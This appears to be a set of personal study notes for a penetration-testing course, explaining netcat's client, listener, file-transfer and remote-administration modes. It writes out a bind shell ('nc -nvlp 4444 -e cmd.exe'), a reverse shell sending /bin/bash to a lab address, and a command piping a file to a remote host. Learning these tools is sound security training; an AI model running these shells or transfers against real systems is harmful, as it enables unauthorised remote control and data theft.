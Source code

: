 > Protocols: TCP or UDP
> Platforms: Windows or Linux
### Client mode
- connect to a port
- e.g. `nc -n -v 10.11.0.22 110`
	- `-n`: skip DNS name resolution
	- `-v`: verbose output
	- `10.11.0.22 110`: destination ip address and port number
	- ![[Pasted image 20231223210900.png]]
		- 1st line: nc output (tells us port is open)
		- 2nd line: response from server
### Server mode
- listen to a port
- e.g. `nc -nvlp 4444`
	- `-l`: listener
	- `-p`: to specify listening port number

### File Transfer
- `nc -nvlp 4444 > incomingfile
- `nc -nv 10.11.0.22 110 < outgoingfile

### Remote Administration
#### command redirection
- `-e`: redirect the input, output and error messages of an executable to a port
	- e.g. if we bind cmd.exe to a port, anyone connecting to the port will be able to run commands on the target machine
- e.g. `nc -nvlp 4444 -e cmd.exe`
#### Reverse Shell
- send a command shell to a host listening on a specific port (meaning target machine is the client)
- e.g. 
  on target machine: `nc -nv 10.11.0.22 4444 -e /bin/bash`
  on remote machine: `nc -nvlp 4444`